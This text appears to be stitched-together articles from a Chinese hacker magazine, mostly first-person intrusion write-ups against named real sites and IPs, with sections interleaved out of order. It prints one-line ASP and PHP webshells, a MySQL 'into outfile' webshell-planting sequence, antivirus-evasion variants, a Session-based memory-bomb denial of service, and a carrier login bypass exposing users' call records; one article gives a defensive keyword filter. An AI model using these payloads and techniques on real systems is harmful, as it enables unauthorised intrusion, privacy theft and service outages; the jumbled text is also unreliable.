现在我们就可以进入还原卡管理，设置不还原 C 盘，利用启动脚本提升权限了。可是如果万欣的管理员发现我们的非法账号并删除，以后老师也修改了还原卡密码，不就不能使用了吗？但是假设我们拿到用来解码的文件，那不就……继续回去在网站的后台逛了下，发现有上传图片和软件的地方，可惜不能上传 EXE 文件，也没有后台备份数据库等选项。不过这可难不倒我们，用 NC 提交一下就可以了。不久，我们的小马就上去了，如图7所示。接着传个大马上去，得到 WebShell，如图8所示。


去网站的 `Web\Jpfw` 目录下找到 `Getpassx.asp`，分析了一下内容，其中有一句 `Executor.Application="cmd /c getpassx"`，原来密码解码是通过一个 `getpassx.exe` 的文件来得到的，这样就好办了。进到 `c:\winnt` 目录下，果然躺着一个 `getpassx.exe` 程序。下载到本地，执行后发现确实可以使用，如图9所示。


自此，破解过程到此结束，其中没有什么技术含量，只不过提供给大家一个思路：如果还原卡本地不能破解的话，不妨想想其他办法。

- 适合读者：木马爱好者，脚本爱好者
- 前置知识：木马基础知识

## 小议一句话后门的防范


文／图 kEvin1986 [S4T]

2004 年起，网络上开始流传一种新型的 WebShell 后门，这种后门的优点在于体积小巧，最小的一句话后门长度仅为 22 个字节。因为这个特性，所以非常多的 Hacker 习惯将这样的脚本插入到站点的一些正常脚本代码中，从而迷惑管理员的眼睛达到后门的目的。事实上这是一种非常有效的后门方式，在这种 WebShell 中，比较出名的有 cYfox 的微型 ASP 木马、海阳顶端 ASP 木马 C/S 版、Lanker 的微型 PHP 木马。

好了不废话，我们来看看如何防范一句话后门的攻击。

首先我们了解到：一句话后门都是以一个执行函数为载体，因为体积小且函数本身使用得比较普遍，导致杀毒软件在特征码的判断上存在疑虑而不敢擅自进行查杀（至少在我看到的杀毒软件中，没有一个对一句话木马进行查杀）。以 ASP 来举例，一句话后门大致类似 `<% Execute(Request("k")) %>`。我们来分段看看这句话的含义。首先 `Request("k")` 是来自 Client 端提交的脚本，这是由 Hacker 提交的数据，服务端只负责接收这个数据。接着这个数据被交给 Execute 函数来执行，也就是对脚本解析并执行的过程，这样只要通过脚本来进行的行为都将在服务端执行，也就对服务端造成了威胁。

从中我们不难发现整个过程里，关键的部分如 Execute 是只运行在服务器中的，而 Request 则是个连接 Hacker 和 Server 的纽带。现在请大家不要只想着 Execute 函数，这不过是个傀儡。如果我们能够做到在这点上防范的话，杀毒软件早就抢过这把生意了。所以我们要做到切断 Hacker 与傀儡之间的联系桥梁，如果成功了这就断送了他们的联系，即使傀儡再怎么强大，也将没有用处。

我的思路是：一般一句话后门都插入在正常的 ASP 代码中。如果有哪些大侠将代码独立出来成为单独的文件而不被管理员发现的话，我敢断定这管理员一定合谋参与了入侵。（脚本小子：那个合谋的人就是你）开个玩笑我们继续，当我们在使用正常代码时，由于一些容错代码的前置导致即使错误，也没有任何的反映。那我们可否在 Hackers 提交脚本数据时对他们进行检测呢？下面是我写的一段脚本代码，仅供大家参考：

```asp
<%
Badstr=Lcase("Response,Request,Request,Session,CreateObject,Runat,Eval,Execute,GetObject,Application")
Badstrp=split(Badstr,",")
if Request.Form<>"" Then
  For Each i In Request.Form
    For j = Lbound(Badstrp) To Ubound(Badstrp)
      If Instr(LCase(Request.Form(i)),Badstrp(j))<>0 Then
        Response.Clear
        Response.write "Error.Maybe Webshell is exists"
      End If
    Next
  Next
End If
%>
```


……就达到了无法使用这些必须的函数，Hacker 根本不能构成一个正常的或者说是有用的脚本代码，自然也无法威胁服务器了。当然，如果可以最好加上 Cookie 的过滤……这是很危险的，所以为了防止此类攻击，我们将执行的脚本也列入黑名单。……希望大家能够多在防御的问题上思考，只有攻防对立，才能建立完善的安全体系。

只要稍微懂一些 ASP 的朋友很轻松就能看明白我写的代码。第一段是对提交为 POST 方式的脚本进行判断与检测，检测的内容是 Response、Request、Session、CreateObject、Runat、Eval、Execute、GetObject、Application……也就是说我们限制了 Hacker 提交脚本字符……

- 适合读者：网络爱好者、脚本爱好者、入侵爱好者
- 前置知识：无

## 渗透华夏主站


文/图 rabbitsafe

### 旁注拿到 WebShell

下面开始我们的渗透之旅，我猜主站不会存在漏洞，直接拿旁注测试。首先获得华夏的 IP：219.147.204.245……拿出扫描器 Scanner3，先扫了一下段“219.147.204.245—219.147.204.254”……最后通过分析决定对 219.147.204.249 进行渗透……在 `http://www.kaisendianli.com/databackup/dvbbs7_backup.mdb` 下载数据库后轻松得到 WebShell……


图1


图2

`Wscript.Shell` 不可用，当然 CMD 命令也不能执行，D 盘下不可访问，其他盘均可访问，可以上传文件……在 C 盘和 F 盘下都找到了一些华夏的东西，继续想办法提权，ASP 网页木马没多大权限……上传了 PHP、ASPX、JSP、CGI 过去，但是都不能解析……于是叫上了好友一起想办法……

### 从 ASP 到 ASP.NET

雪拿到 WebShell 后，对各盘目录粗略访问了一下。其中两个目录引起我们的注意，“E:\webdisk”和“F:\xxxx_webdisk”，里面存放的都是 ASP.NET 文件。扫描 80 端口，返回 IIS6.0，确定操作系统是 Windows 2003。在默认情况下 Windows 2003 的 ASP.NET 木马比 ASP 木马权限要大。接下来就是找到对应的网站，然后上传 ASP.NET 木马。

因此 WebShell 同华夏有关，且脚本的说明文件指明这是个网络硬盘。抱着试试看心态在百度上搜索“华夏黑客同盟 网络硬盘”，竟然找到了。接着在 “E:\webdisk” 和 “F:\xxxx_webdisk” 各写入一个 ASP.NET 木马文件，测试访问，确定 Web 目录是 “F:\xxxx_webdisk”。发现可以执行 CMD 命令，但权限依然很小。执行 `ipconfig`，如图3、图4所示。


服务器上用了双网卡，其中两个电信 IP：219.147.204.245、219.147.204.249，一个网通 IP：60.14.252.196。这个结果非常让我们吃惊，没想到就是华夏主站的服务器！拿到华夏网络硬盘的 WebShell 后，下面把目标放到华夏主站的 WebShell 上。现在可以确认主站存放在 D 盘，但是 D 盘没权限访问，渗透又陷入困境。

### 得到主站 WebShell

在接下来的两个小时里没有半点思路。雪用 Pulist.exe 查看了服务器的进程。当访问到 `C:\syn` 目录时，一个文件引起了我们的注意：`SEServer.exe`（文件同步专家）。现在基本确定华夏通过它来实现镜像文件和主站文件的同步。在本地测试了一下文件同步专家，发现可以向服务器 Web 目录写入文件，但还不知道安装在华夏服务器上的用户名和密码。

回到 WebShell，发现同步专家目录下有个 `SEServer.cfg` 配置文件，用记事本打开后发现是乱码。我把此文件下载到本地覆盖同名文件，重新运行 `SEServer.exe`。用星号密码读取器读出密码，如图5所示。现在激动人心的时刻到了，我小心翼翼地拿出同步专家连接华夏的服务器端，提示登录成功，接下来当然是写入 ASP 木马。


登录 ASP 木马后却发现权限设置得很苛刻，Web 目录无法写入，还好我有文件同步可以写入文件，很轻松华夏主站的 WebShell 就拿到了，如图6所示。


### 冲刺3389

第二天赶了个早，上 QQ 就发现雪给我的留言。没想到一晚上他就拿到主站的权限了。雪让我继续完成接下来的工作，一个文件引起了我的注意：`Stop.bat`，内容是重启 IIS。这让我想到昨晚华夏主站突然不能访问，到底是服务器重启还是 IIS 重启了呢？为了确定，我在 WebShell 中执行 `query user`，发现管理员登录时间是几天前的，排除了重启的可能。我尝试对这个 Bat 文件进行修改，添加了一个管理员，接下来就是等待。

晚上 10 点多，雪上线告诉我服务器添加了个用户，我马上打开 WebShell，发现早上加的用户真的在里面。通过测试，网通网卡的 IP 可以登录 3389，于是我们登录上去了，如图7所示。因为网速比较慢，我们上传了一个鸽子过去，如图8所示。

- 适合读者：脚本爱好者，手机用户
- 前置知识：无

## 手机的危机

### —— 透过联通网站查看用户隐私

文/图 seawolf


我国的互联网用户越来越多，但真正经常在网上处理个人事务的人却很少，这就造成了我们对个人网络安全的疏忽，大部分联通手机用户都没有修改自己手机的初始密码。

今天我去联通网站查自己手机的通话记录，发现网站上已经进行了安全防范，当你用初始密码登录时系统会弹出一个对话框，如图1所示。

正常情况下我们已经无法用初始密码登录了，不过条条大路通罗马，此路不通寻他路。


我查看主页的源代码，发现了这么一段。

```javascript
if(window.document.frmInfo.pwd.value==123456)
{
  window.alert("您好，您的密码为初始密码，为了您的隐私安全，请您拨打10011客服电话按3!修改密码后再登录，谢谢！");
  window.document.frmInfo.pwd.focus();
  return false;
}
```

这是用 JavaScript 写的客户端验证程序。继续往下看，找到了手机号和密码的变量及其提交地址。

```html
<form method="POST" name="frmInfo" action="identify.jsp?temp=1">
<input name="clhm" size="14" value="13" maxlength="11" type="text" class="myinput">
<input name="pwd" size="14" maxlength="6" type="password" class="myinput">
```

这段代码说明了处理变量的页面是 `identify.jsp`，手机号和密码的变量分别为 `clhm` 和 `pwd`。于是我直接在浏览器中提交了变量，格式如下：`http://xxx.xx.xx.xx:8020/web/identify.jsp?temp=1&clhm=133xxxxxxxx&pwd=123456`，页面返回结果如图2所示。


在正常查询情况下此页面会做短暂停留，然后自动转向个人手机信息页面，而此时却没有跳转，现在看看它的源代码：


### 总结

至此，我们的渗透结束。本次渗透没有用到什么新技术，只是利用了服务器权限设置上的小问题和文件同步专家的缺陷。网络安全不是儿戏，希望所有的网管都能尽到自己的责任。

```html
<script language="javascript">
parent.frames["header"].location.href="header.jsp";
parent.frames["left"].location.href="hfcxleft.jsp";
location.href="hfcxright.htm";
</script>
```

您输入的号码是：133xxxxxxxx，您输入的密码是：123456。

看来此页面是由框架组成的，`header.jsp` 顾名思义是页面的上半部，`hfcxright.htm` 是页面的下半部，用来显示版权信息。这里重点放在 `hfcxleft.jsp` 上，当我们正常登录后，联通提供的服务菜单就是在框架左边的。我在浏览器中输入 `http://xxx.xx.xx.xx:8020/web/hfcxleft.jsp`，服务器返回了我们需要的服务菜单，如图3所示。


点击月结详单查询，现在就可以看到此用户的详细通话记录了，如图4所示。

| 呼叫类型 | 被叫号码 | 对方号码 | 对方通话所在地 | 通话日期 | 通话时长 |
|---|---|---|---|---|---|
| 短信下行 |  | 812******** |  | 20060201 | 07440 |
| 主叫 |  | 81*** |  | 20060201 | 165813 |
| 短信下行 |  | 135******** |  | 20060201 | 174814 |

图4

至此我们想要的东西已经出来了，入侵到此告一段落。最后做个总结：当我们向服务器提交请求后，如果密码正确，就会从客户端到服务器建立一个会话。只要不关闭当前的浏览器，会话就不会失效。接着我们直接请求消费查询的页面，服务器会认为我们是正常登录的，所以按部就班地返回了服务菜单页面。从头到尾 JSP 程序并没有在服务器端对初始密码进行验证，整个过程就是利用了这一点。

**脚本小子：**现在找个支持 FSO 的网站真不容易，还好 XML 为我们带来了一个新的选择。你知道了吗？

- 适合读者：网络爱好者、木马爱好者、脚本爱好者
- 前置知识：XML 语言基础知识

## 小波XML木马


文/图 FLASHBOY

这几天一直在学 XML，忽然看到 `xmlDoc` 中有一个 `SAVE` 方法，能够让我们在没有 FSO 的机子上写 ASP 木马。在 Windows 2000 以上的操作系统中，我们不必安装 XML parser 解析器也能够支持 XML。首先介绍一下 HTML 与 XML 代码的规范化。

> **小知识：** FSO（FileSystemObject）是微软 ASP 的一个对文件操作的控件。

### 前置知识

1. 所有的 XML 文档必须有一个结束标记。  
2. XML 标记大小写敏感。  
3. 所有的 XML 元素必须合理包含。  
4. 所有的 XML 文档必须有一个根元素。

在 XML 文档中，忽略结束标记是不符合规定的。在 HTML 文档中，一些元素可以是没有结束标记的。

```html
<p>Hello FLASHBOY
<p>www.xflashboy.com
```

但是在 XML 文档中必须要有结束标记，像下面的例子一样：

```xml
<p>Hello FLASHBOY</p>
<p>www.xflashboy.com</p>
```

这与 HTML 不一样，XML 标记是大小写敏感的。在 XML 中，标记 `<Letter>` 与标记 `<letter>` 是两个不同的标记。因此在 XML 文档中开始标记和结束标记的大小写必须保持一致。

```xml
<Message>This is incorrect</message>   // 错误的
<message>This is correct</message>     // 正确的
```

在 XML 中不允许不正确的嵌套包含。在 HTML 中允许有一些不正确的包含，例如下面的代码可以被浏览器解析。

```html
<b><i>This text is bold and italic</b></i>
```

在 XML 中所有元素必须正确地嵌套包含，上面的代码应该这样写：

```xml
<b><i>This text is bold and italic</i></b>
```

XML 文档中的第一个元素就是根元素。所有 XML 文档都必须包含一个单独的标记来定义，所有其它元素都必须成对地在根元素中嵌套。

```xml
<root>
  <child>
    <subchild>...</subchild>
  </child>
</root>
```

### 5. 属性值必须使用引号

在 XML 中，元素的属性值没有引号引着是不符合规定的。如同 HTML 一样，XML 元素同样也可以拥有属性。XML 元素的属性以名字/值成对出现。请看下面的两个例子：第一个是错误的，第二个是正确的。

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<note date=12/11/99>
  <to>Jani</to>
  <from>Ordm</from>
  <heading>Reminder</heading>
  <body>Don't forget me this weekend</body>
</note>

<?xml version="1.0" encoding="ISO-8859-1"?>
<note date="12/11/99">
  <to>Tove</to>
  <from>Jani</from>
  <heading>Reminder</heading>
  <body>Don't forget me this weekend</body>
</note>
```

第一个文档的错误之处在于属性值没有引号引着，正确的写法是：`date="12/11/99"`，不正确的写法是：`date=12/11/99`。此处是 XML 中的重点，如果不照做 XML 是不会创建文件的。

## 6. 数据中不能含有 "<"、">"、"&" 符号

在代码中可以使用 `&lt;` 与 `&gt;` 代替 `<`、`>` 符号。举例说明 `xmlDoc.loadXml(xmlString)`，用 LOAD 方法加载一段 XML DOCUMENT 到对象中，这里加载的是 `xmlString`。

> 在这个字符串中一定要满足 XML 语言的要求，如果不照做的话只能创建一个空文件，有些读者写入不成功就是因为这个原因。

```asp
action=
// 创建一个提交表单
<p>木马内容</p>
<p><textarea name="flashboy" cols="80" rows="10"></textarea></p>
// 创建一个文本框
<p>路径</p>
<p><input name="textfield" type="text" size="50" /></p>
<p><input type="submit" name="Submit" value="提交" /></p>
<p><%Response.write "本文件绝对路径"%>
<%=server.mappath(Request.ServerVariables("SCRIPT_NAME"))%></p>
<%
dim xmlString
dim xmlDoc
xmlString=Request("flashboy")
set xmlDoc=server.createObject("Msxml2.DOMDocument")
xmlDoc.loadXml(xmlString)
f=Request("textfield")
xmlDoc.save(f)
set xmlDoc=nothing
%>
```

最后我们以冰狐浪子微型 ASP 后门 2.0 来说明一下：`<SCRIPT RUNAT=SERVER LANGUAGE=JAVASCRIPT>try(eval(Request.form('#')+''))catch(e){}</SCRIPT>`。其中 `RUNAT` 与 `LANGUAGE` 两个属性值没有引号，引号补全后才符合 XML 规范。

### 测试木马

现在我们看一下木马的源程序。

```asp
<%on error resume next%>
<form id="form1" name="form1" method="post">
```

## 兵马未动，粮草先行


大四了，我们都面临找工作的巨大压力。前几天一位老师在上课的时候说，如果哪个同学感兴趣可以去他的公司上班，并且留下了公司的网站。我闲着没事干就去检测了一下，没想到还入侵成功了。毕业后大概可以靠这次入侵提高一下我在老师面前的地位了。首先登录网站，页面条理很清晰，没几个链接。

随便找了一个 ASP 的链接，然后在后面加一个分号，发现可以注入。请出明小子的 Domain3.5，很顺利地发现它采用了 MSSQL 数据库，可惜不是 SA 权限。权限低也没办法，先跑跑密码，跑出来的用户名分别是 `admin` 和 `''`，登录后台的时候发现根本不对，如图2所示。

我请出教主的 HDSI，然而检测的结果让我大吃一惊：两个工具检测的权限居然不一样，如图3所示。


HDSI 在猜解表名时猜到第 7 个就猜不下去了。我只得手工把 admin 添进去然后跑密码，可惜密码始终没有出来。虽然显示的是 SA 权限，可惜命令行无法使用。


无奈之下再去网站看看，发现有一个留言本，于是开始尝试暴库。加了个“%5c”开始测试，然而事实总是残酷的，结果再次让我欲哭无泪。

冥思苦想了很久，突然发现自己忽略了旁注。再次请出了 Domain3.5 开始检测，发现这台虚拟主机上捆绑了 382 个域名。网站一多，自然不可能没有漏洞。我信心十足地开始旁注，两分钟不到就发现了一个，如图4所示。

先传小马，然后放个大马，至此搞定收工。如图5所示。


总体来说这次入侵没什么难度，不过让我郁闷的是 Domain 的检测结果不准，因此浪费了不少时间在上面。希望和我一样遇到此类问题的朋友，可以考虑换个软件试试。

脚本小子：很多人对 DDoS 的认知仅限于主动模式，其实在 DDoS 里还有一个被动模式。正因为有被动模式的存在，才有了这篇文章的存在。

- 适合读者：网站管理员、ASP 开发
- 前置知识：ASP 基础

## 瞬间让你的服务器负载100%

文/图 玫瑰下的烂泥


以往的 DDoS 主要是使 CPU 超负荷运行，从而导致系统响应过慢直至失去服务能力，而本文叙述的方法是使服务器的内存超负荷工作，导致其失去服务能力。

首先在这里要说明一下何谓被动式 DDoS：主动式 DDoS 是其他主机发动对目标主机的攻击，而被动式 DDoS 则是服务器自己把自己搞垮。

学过编程的朋友应该知道，数据的压入等操作都是由程序向系统提交申请内存的。在 ASP 编写环境下，宿主语言是 VB；在 VB 环境下分配内存空间的方法很多，但在 ASP 环境里，内存分配函数只保留了集成在 VB 程序库里的几个。

如“Dim、Space”。下面我就拿“Space”函数来开刀。大家先简单认识一下“Space”函数（引自《Visual Basic Scripting Edition》）：

> **Space 函数**  
> 返回由指定数目的空格组成的字符串。  
> `Space(number)`：`number` 参数为字符串中所需的空格数。

> 下面的示例利用 Space 函数返回由指定数目空格组成的字符串：

Dim MyString  
MyString = Space(10)  
MyString = "Hello" & Space(10) & "World"

如上我们可以获得此函数的使用方法，通过计算，我们得到 1M=1024×1024 Byte。假设我使用 Tempx 这个变量名得来 1M 的内存空间，通过 ASP 编写如下：

```asp
<%
MemSize=1024*1024
Tempx=Space(MemSize)
%>
```

很轻松地，“Tempx”变量就获得了 1M 内存空间。如果把“MemSize”的数值设置得更大，如 100M、200M 等，ASP 解释器会很听话地向系统申请相应的内存大小，但是 ASP 程序执行完成后会自动释放这些内存空间。

“Session”函数所创建的变量，它的生命周期比普通的变量生命周期要长，一般在服务器里有一个默认的时间，至少不会在 ASP 程序结束后清除。

这就抓住了问题所在，我们可以有针对性地写出一个内存炸弹，请看下面的代码：

```asp
<%
MemSize=100*1024*1024
Session("Tempx")=Space(MemSize)
%>
```

将代码保存成 ASP 文件上传到服务器里执行，ASP 解释程序会向系统申请 100M 的内存空间，然后把这 100M 的空白数据写入 `Session("Tempx")` 变量里。如下注1所示。

如果将访问此 ASP 程序的 URL 以图片方式插入到人气旺盛的 BBS 里，那么别人浏览帖子的同时，无意中就成为了 DDOS 的发起者；情况严重一点，服务器会因为物理内存不够而采用虚拟内存做内存交换，由于硬盘的读写远比内存慢，会造成服务器拒服或者当机，如图2所示就是服务器不稳定后造成拒服的页面。

从出错信息我们可以看出，它对 ASP 的权限要求并不高，简单两行代码足以对付一台高性能的服务器。


适合读者：入侵爱好者、脚本爱好者  
前置知识：脚本基础知识

## 对AppServ的安全测试


AppServ 是 PHP 网页架站工具组合包，这是一名泰国的作者将一些网络上免费的架站资源重新包装起来的安装程序，非常适合初学者快速完成架站。AppServ 所包含的软件有：Apache、Apache Monitor、PHP、MySQL、PHP-Nuke、phpMyAdmin。

官方主页：http://www.appservnetwork.com/  
其安装过程可以参考：http://ihower.idv.tw/tavi/WebCourse/InstallAppserv 的介绍。

整套程序使用起来是非常方便的，但是其默认安装后的 MySQL 的 Root 密码默认为空。许多站长疏忽大意，通常不改默认密码，这使得我们很容易备份出 WebShell。加上其安装默认权限是服务级别，从 WebShell 到拿下主机权限，可以说也是一路顺风。

下面我随机挑选一个站点来做说明：http://220.133.8.233，如图1所示。其主页是安装 AppServ 后的默认主页。存有这种漏洞的主机非常多，以下是我随机找的 IP 段的搜索结果。从图片可以看出，此缺陷还是非常严重的，如图2所示。


图2

> 如何快速扫描安装 AppServ 的主机？打开扫描器，最好扫一段泰国的 IP，格式“s*.syn开始IP结束IP:3366/save”，扫描完成后将结果导入 Hscan，只选择扫描“check MYSQL weak accounts”就可以了。

我们先看一下 phpinfo 的信息，“http://220.133.8.231/phpmyadmin/phpinfo.php”来到“_SERVER["SCRIPT_FILENAME"]”处，这里我们可以得知 AppServ 的安装路径是“d:/appserv/www”。

打开牛虻的 MySQL 连接器，IP 处填写主机的 IP，用户名 root，密码空，点击连接，很快就连接成功了，如图3、图4所示。


图3


图4

```sql
use mysql;
```

接着输入“use mysql;”，点击发送命令，显示“命令 use mysql，发送成功！”。此句表示进入名为 mysql 的数据库。

```sql
create table a(cmd text);
```

此句表示：选择在名为 mysql 的库中建一个名为 a 的表，此表只有一个字段名为 cmd，数据类型为 text。

```sql
insert into a values ('<?php eval($_POST[cmd]);?>');
```

此句表示：在 a 的表内写入木马“('<?php eval($_POST[cmd]);?>')”。

```sql
select * from a into outfile 'd:\\appserv\\www\\hk.php';
```

此句表示：将整个表里的内容导出，存为 hk.php，这样就可以用 lanker 微型 PHP 后门客户端来进行连接了，如图5所示。


图5

现在我们可以传个大马上去了，这里我传的是 Saly 修改版的 PHPSPY，如图6所示。最后测试一下我们获得的权限，如图7所示。


图6


图7

现在已经获得 System 权限，想做什么就做什么吧。解决办法：为 Root 设置一个强壮的密码，并且降低 Apache 的运行权限。尽管此漏洞比较低级，但因为其用户众多，所以利用此漏洞还是具有一定可行性的。

## 对AppServ的安全测试

适合读者：脚本爱好者、入侵爱好者  
前置知识：无

## VIP会员学习成果展

## 入侵重庆某中学

文/图【黑防VIP】roger


最近在学习脚本知识，随便去 Google 上找了一个站点练手。打开主站 www.xxx.net，发现是一个新闻系统，我就在文章链接后加了一个单引号 `http://www.xxx.net/newsite/shownews.asp?NewsID=430'`。结果文章不能正常显示。提交 `1=1` 时则能正常显示，`1=2` 时报错。基本可以判断该文章系统存在注入漏洞。拿来小榕的 Web 跑出管理员用户名和密码。然后猜后台管理登录页面，得到 `http://www.xxx.net/newsite/admin_login.asp`，不过该页面禁止访问，估计管理员做了限制。其他管理页面和上传页面同样都做了限制，不允许外网 IP 访问。只好试用其他方法入侵。尝试 `%5c` 暴库，结果失败。再尝试 IIS 写权限利用，返回

```http
HTTP/1.1 100 Continue
Server: Microsoft-IIS/5.0
Date: Fri, 03 Mar 2006 07:53:50 GMT
X-Powered-By: ASP.NET
```

返回 100 的提示，估计服务器 IIS 没做好写权限配置，写入一个 ASP 木马，保存的时候却返回

```http
HTTP/1.1 403 Forbidden
Server: Microsoft-IIS/5.0
Date: Fri, 03 Mar 2006 07:54:20 GMT
X-Powered-By: ASP.NET
Connection: close
Content-Type: text/html
Content-Length: 44
```

403 禁止访问错误！这是什么原因呢？后来查了一下黑防 04 年一篇 Superhei 写的关于 IIS 写权限利用的文章，才发现直接上传 IIS 支持的文件类型都会出现这种错误。不过解决办法还是有的：先把后门的扩展名改为 IIS 不支持的扩展名，Put 方式上传到目录，然后执行 Copy 或 Move 命令将其改为 ASP 格式。这样问题就解决了（以上过程可以使用桂林老兵的 IIS 写权限利用工具实现）。

文件上传后显示成功，但访问时却出现 HTTP 404 错误找不到文件；又试了几次还是这样（后来才知道上传的 ASP 后门被杀毒软件查杀了）。

入侵到这里就陷入了僵局，我突然想起了旁注。`ping www.xxx.net` 得到其网站 IP，然后用 IE 进行 Whois 查询，`http://whois.webhosting.info/61.128.235.xxx`。

| 字段 | 内容 |
|---|---|
| 服务 | WebHosting.Info's Power WHOIS Service |
| IP | 61.128.235.xxx |
| Domain Name | 1. xxx.NET; 2. CQxxx.NET |

发现主机上还存在另一个站点，于是我开始对 cqxxx.net 进行测试。该站点由一个文章系统、一个论坛、一个留言版构成。先在文章系统注册了一个用户，发表文章时却没有找到上传文件的地方，系统也不存在 SQL 注入漏洞。不过用 `%5c` 成功暴库，Down 下了数据库。里面有 4 个管理员账户，密码都是 MD5 加密的，试着用工具跑密码，终于破解出了其中一个管理员的密码，找到两个后台登录页面：`http://www.cqxxx.net/test/admin/admin_user.asp`。登录后台发现管理员权限太低，只能审核文章，不能修改后台设置、添加公告等。

不过从后台又发现了一款文章发布系统登录页面：`http://www.cqxxx.net/test/admin/admin_admin.asp`。页面正中有几个关键字“新闻发布管理系统”，管理员把版权信息改了，所以我不能直接判断出它所用的文章系统。只好到百度搜索 `admin_admin.asp 新闻发布管理系统` 关键字，最后确定该文章系统为宁乡热线新闻发布管理系统。到官方网站查一下资料，官方公告说该文章系统以前存在 SQL 注入漏洞，不过程序作者发布了补丁，后来测试了一下网站发现管理员也打了补丁。

下载一套程序到本地分析一下，admin 文件夹下存在 `adminconn.inc` 文件，里面保存数据库路径的配置信息。直接用 IE 访问 `adminconn.inc` 会露出数据库路径，提交 `http://www.cqxxx.net/test/admin/adminconn.inc`，成功露出数据库路径，发现数据库是 ASP 后缀的。用 FlashGet 下载成功，看来管理员并没有做好下载处理。打开数据库，发现密码做了加密，不过不是 MD5，也就是说有破解的可能。

分析了一下文章系统加密方法，是用 Encrypt 函数操作的。再来看 adminconn.inc 里的解密过程：

```asp
set conn=server.createobject("ADODB.CONNECTION")
conn.open"SfsSQL"
sub CloseConn()
    conn.close
```

## 脚本攻防（SCRIPT ATTACK & DEFENCE）

```vb
set conn=nothing
end sub
function decrypt(dcode)
  dim texts
  dim i
  for i=1 to len(dcode)
    texts=texts & chr(asc(mid(dcode,i,2))-i)
  next
  decrypt=texts
end function

function encrypt(ecode)
  dim texts
  dim i
  for i=1 to len(ecode)
    texts=texts & chr(asc(mid(ecode,i,2))+i)
  next
  encrypt=texts
end function
%>
```

- 错误。所以注入之前要设置一下IE，取消“显示友好HTTP错误消息”。
- 提交注入语句后返回的结果和大多数存在SQL漏洞的程序不同。

提交 `http://www.cqxxx.net/test/club/forum.asp?forum_id=19 and 1=1` 返回正常页面，如图1所示。

图1

提交 `http://www.cqxxx.net/test/club/forum.asp?forum_id=19 and 1=2`，返回错误页面，如图2所示。

图2

提交 `http://www.cqsky.net/test/club/forum.asp?forum_id=19 and 0<>(select count(*) from sfadmin)`，返回页面如下图所示……如图3所示。

图3

针对这种情况，我们注入时就要以第三种返回结果为标准进行猜解。由于一些SQL Inject工具不能准确判断这套程序的返回结果，我们只好手工猜解……

- 管理员表：`SFAdmin`
- 管理员用户名字段：`SFAdmin_Name`
- 管理员密码字段：`SFAdmin_Password`

输入 `http://www.cqxxx.net/test/club/forum.asp?forum_id=19 and 1=(select count(*) from sfadmin where len(sfadmin_name)=11)` 返回如图4所示页面，得到管理员用户名长度为11位。下面开始猜管理员用户名……

我们可以自己写一段代码进行解密，代码如下。

```asp
<!-- #include file="adminconn.inc" -->
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312" />
<title>own解密</title>
</head>
<body>
<table width="300" border="0" align="center" cellpadding="0" cellspacing="0">
<form id="form1" method="post" action="?a=a">
<tr><td height="30" align="center">...</td></tr>
<tr><td height="30" align="center"><input type="submit" name="Submit" value="解 密"/></td></tr>
</form>
</table>
</body>
</html>
```

在本地搭建IIS服务器，将上面的代码保存成ASP文件放到admin文件夹下，这样就可以解密数据库里的密码。

用破解后的密码登录后台，发现上传相关页面已被删除，只好从数据库插入一句话木马……再通过客户端连接写入木马。

- 雪人论坛一些老版本是存在注入漏洞的，只是注入时和其他程序有所不同，导致一些工具不能正常使用。
- 在不设置IE的情况下输入注入语句会返回HTTP 500错误。

`1=(select top 1 count(*) from sfadmin where Asc(mid(sfadmin_name,1,1))=108)`，如图5所示。

猜出管理员账户第一位ASCII码为108，转换过来就是l。按照这样的顺序不断用 `>`、`<` 缩小范围，最终得到管理员用户名xxx。输入 `http://www.cqxxx.net/test/club/forum.asp?forum_id=19 and 1=(select top 1 count(*) from sfadmin where Asc(mid(sfadmin_password,1,1))>50)` 得到管理员密码xxxxxx。到 `http://www.cqxxx.net/test/club/admin_main.asp` 成功登录论坛后台，如图6所示。

论坛后台里环境变量：

| 项目 | 路径 |
|---|---|
| 主站web目录 | `F:\oak\newsite\` |
| cqxxx.net文章系统web目录 | `G:\es\test\article\` |
| cqxxx.net论坛web目录 | `G:\es\test\club\` |

最后我们用海洋ASP木马客户端写入木马（这里用的ASP后门是免费版的，黑防VIP专区有下载），如图7所示。入侵到这里就算结束了。为了不让管理员发现，我把数据库里添加的一句话木马用户名删掉。在一些正常的ASP文件里插入一句话木马，或者你也可以重新上传一个修改过文件创建时间的ASP后门。服务器是Windows 2000系统，IIS还支持ASPX，上传ASPX后门后直接可以得到系统权限。

- 一般情况下，我们在某个正常的asp网页文件中插入 `<%execute(Request("#"))%>` 会导致被插入的文件无法正常显示或出现错误提示，解决问题的办法是把这段代码修改成if语句：`<%If Request("#")<>"" then execute(Request("#"))%>`。
- 如果被杀毒软件查杀，我们可以修改字母的大小写或者进行加密，例如：`<%iF ReQuest("#")<>"" tHEn eXecUte(Request("#"))%>`。

- 适合读者：网络爱好者、入侵爱好者
- 前置知识：无

## 甲骨文七里堡：我把黑狐抓到啦

一天正在发呆，QQ上的一个朋友向我求救：“我的网站被黑了，首页给换了，SOS！”。最近正好无事，索性就帮帮他吧。

网站具体情况待会再看吧。向朋友要了管理员的密码，用3389登录上去一探究竟。先看看服务器用户的情况，输入 `net user` 后发现“tsinternetuser”这个用户比较显眼，如图1所示。

### 收复失地

依稀记得 **tsinternetuser** 是 Windows 2000 的终端用户，但在 Windows 2003 中并不存在。检查管理员组后发现并不存在此用户，初步猜测它是被克隆出来的。通过 Regedt32/Regedit 到 `HKEY_LOCAL_MACHINE\SAM\SAM\Domains\account\` 对比管理员和“tsinternetuser”二进制键值，结果一致，因此断定用户“tsinternetuser”被克隆成管理员。接着检查其他用户，未发现更多痕迹，删除“tsinternetuser”，但事情并未结束。

### 检查后门

祭出“冰刃”检查后门。先看进程未发现隐藏；再看端口，发现 **1066** 端口在监听，且对应程序不常见。

在进程选项卡查看 `systemram.exe`，先结束进程，再检查启动组；随后在服务中发现熟悉身影 **Radmin**（见图3）。

该程序正好监听1066端口。删除程序并卸载服务即可清理。该样本应为被修改过的Radmin，尽管文件名伪装，但服务侧特征明显。

### 重整河山

继续排查未发现其他后门，开始恢复网站。大量页面被改，从备份恢复后继续补漏洞。工具扫描与手工检查都未发现明显入口，怀疑旁注。随后决定从入侵者留下的WebShell位置反推入口，并用查找ASP木马工具检查特征码。

工具很好用，重点特征码是危险组件和函数，检查结果如图4所示。

| 文件相关路径名 | 特征码 | 描述 |
|---|---|---|
